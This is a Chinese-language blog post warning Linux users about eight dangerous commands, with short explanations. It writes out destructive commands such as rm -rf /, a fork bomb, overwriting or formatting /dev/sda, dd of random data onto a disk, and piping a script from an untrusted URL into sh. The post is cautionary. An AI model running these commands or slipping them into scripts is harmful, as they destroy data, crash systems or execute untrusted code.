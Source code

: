 ```yaml
---
layout: post
title: Linux上最危险的8个命令
---
```


Linux命令是很强大、高效的。但是有时侯执行一些命令要非常小心，尤其是，当你不知道自己在干什么的情况下。

这篇文件总结了8个可能让人悲剧的10个命令。这些命令在执行之前，一定要再三确认，一不小心就会让你追悔莫及。

### #1) rm -rf

`rm -rf`是删除目录最快的方法，如果使用桌面环境（右键->删除）删除一个零碎目录需要很长时间。但是一个小小的打字错误，有可能对你的系统造成不可恢复的破坏。例如下面这条命令：

{% highlight shell %}
# rm -rf /
{% endhighlight %}

上面这条命令需要系统管理员权限，这也是不建议使用root用户登录系统的原因之一。

rm常用选项：

* **rm**：删除文件
* **rm -r**：递归的删除目录，包括空目录
* **rm -f**：直接删除文件，不询问
* **rm -rf /**：直接根(root)目录，不询问
* **rm -rf \***：删除当前目录的所有东西，不询问
* **rm -rf**：删除当前目录和子目录，不询问

在执行`rm -rf`一定要小心。为了防止`rm`命令意外删除文件或目录，可以为`rm`创建一个别名`rm -i`，每次都需要确认删除。

### #2) :(){:|:&};:

上面这个命令就是所谓的fork炸弹。执行上面代码会耗尽系统资源而崩溃。更多关于fork炸弹的信息看这里：[Linux：怎么防止fork炸弹攻击](http://blog.topspeedsnail.com/archives/2757)。

### #3) cmd > /dev/sda

cmd代表一个命令，`cmd > /dev/sda`把cmd命令的输出写到了`/dev/sda`块设备上，会导致`/dev/sda`块设备数据的全部丢失。

### #4) mv 目录 /dev/null

上面命令会把目录移动到`/dev/null`。在Linux中， /dev/null是一个特殊的设备文件，有人把它叫做黑洞。

{% highlight shell %}
# mv /home/* /dev/null
{% endhighlight %}

上面命令相当于：

{% highlight shell %}
# rm -rf /home/*
{% endhighlight %}

### #5) wget http://怀有恶意脚本的url -O- | sh

上面这条命令在安装软件或系统环境时总用到，它从url下载脚本，下载完成之后自动执行脚本。不要对不信任的url执行上面这个命令。

### #6) mkfs.ext3 /dev/sda

上面命令是格式化命令，执行完之后硬盘数据全部清空。

### #7) > file

｀> file｀命令会把文件中的数据全部清空。

### #8) dd if=/dev/random of=/dev/sda

上面命令向sda设备中写入随机数据，这是不可恢复的。

如果一个命令你不知道是干嘛的，不要盲目执行，可以先使用man查询一下。如果你有因为执行错误命令而导致系统崩溃的经历，欢迎留言。